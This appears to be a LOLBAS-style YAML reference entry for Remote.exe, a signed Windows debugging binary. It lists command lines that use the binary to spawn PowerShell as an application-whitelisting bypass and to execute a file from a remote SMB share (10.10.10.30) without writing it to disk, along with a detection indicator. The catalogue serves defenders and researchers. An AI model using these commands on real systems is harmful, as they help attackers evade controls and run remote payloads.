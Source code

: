 ```yaml
---
Name: Remote.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-06-01
Commands:
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: Remote.exe /s "\\10.10.10.30\binaries\file.exe" anythinghere
    Description: Run a remote file
    Usecase: Executing a remote binary without saving file to disk
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\remote.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\remote.exe
Code_Sample:
  - Code:
Detection:
  - IOC: remote.exe process spawns
Resources:
  - Link: https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

